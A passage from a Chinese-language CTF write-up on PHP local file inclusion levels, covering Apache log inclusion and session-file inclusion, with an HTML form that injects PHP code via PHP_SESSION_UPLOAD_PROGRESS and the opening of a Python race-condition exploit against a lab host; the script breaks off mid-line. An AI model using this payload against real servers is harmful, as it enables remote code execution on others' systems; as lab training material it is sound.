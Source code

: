 后台链接

### Level 14 LFI_日志文件包含\_Apache

同level 13，日志文件路径不同。

(小声说一句这个洞只有你猜到路径才有，一般来说不会是默认路径)

![image-20240806112106652](./assets/level14.png)

### Level 15 LFI_Session文件包含

这个漏洞可以有两种利用，为了方便两种利用方式应该都可以实现

```html
<!doctype html>
<html>
<body>
<form action="http://URL/index.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" vaule="<?php phpinfo();?>" />
    <input type="file" name="file1" />
    <input type="file" name="file2" />
    <input type="submit" />
</form>
</body>
</html>
```

默认位置：/var/lib/sessions/sess_{PHPSESSID}

/var/lib/sessions/sess_hello

exp:

```python
import io
import sys
import requests
import threading

sessid = 'mixian'


def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://core.hello-ctf.com:34292/index.php',
```